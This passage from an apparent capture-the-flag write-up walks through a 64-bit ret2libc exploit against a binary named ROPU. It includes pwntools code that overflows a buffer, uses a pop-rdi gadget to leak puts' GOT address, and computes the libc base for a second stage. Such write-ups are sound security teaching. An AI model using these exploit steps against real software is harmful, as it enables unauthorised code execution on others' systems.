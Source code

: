 In order to leak an address from the GOT, let's call the `puts` function with argument the address we want to leak. Since we are calling `puts`, we can be sure that GOT['puts'] will have an entry, so we'll just leak that.

```python
buf = cyclic_find('faaaaaaa', n=8) * 'a' # 40 bytes
buf += p64(e.plt['puts']) # Return address - call the puts function
buf += p64(e.got['puts']) # Argument to puts - GOT['puts']
```

There is a small mistake above though. In a 64-bit binary, arguments are passed into registers before the stack (see [here](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)). Therefore, we will need to first pop the argument (GOT['puts']) into $rdi, and only then can we call `puts`.

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to search for gadgets within the binary that pop into $rdi

```sh
ROPgadget --binary ROPU | less
```

In the output, I found the following:

{% asset_img pop_rdi.png %}

So, by ropping to address 0x0000000000400783, we can pop the argument for `puts` into $rdi, and then call `puts`.

```python
pop_rdi = 0x0000000000400783 # pop rdi ; ret
buf = cyclic_find('faaaaaaa', n=8) * 'a' # 40 bytes
buf += p64(pop_rdi) # First call pop_rdi to pop got['puts'] into $rdi
buf += p64(e.got['puts'])
buf += p64(e.plt['puts']) # Now actually call puts
buf += p64(e.symbols['main']) # Run the binary again
p.sendline(buf)
```

Now, when the program runs, it will print "Enter the payload!", read in our ROP chain, call `printf` to echo back our input like usual, and finally call `puts` to print the value in GOT['puts'] to stdout. We can capture that output and use it to calculate the base address of libc as follows.

```python
# Receive the GOT address of puts
leaked_puts = u64(p.recv(6).ljust(8, '\x00'))
log.info('Address of puts: ' + hex(leaked_puts))

# Compute libc base
libc_base = leaked_puts - libc.symbols['puts']
```

In line two, I received 6 bytes from the process - which is the amount of bytes of any address in a 64-bit binary. You might think it should be 8 bytes, but even 64-bit CPUs only use 48-bit addresses today. Before I can unpack the 6 bytes into an integer, I have to pad it with bytes until it is 64-bits long for the `u64` function to decode it.

Now that we have the libc base, we can jump to any gadget we want to in the libc file! But wait - we already sent our payload! Where do we send the new addresses in the libc file that we want to jump to? Well, we can send another payload by just running the binary again from `main`. The binary hasn't quit yet, so the offsets and base addresses will all remain the same.
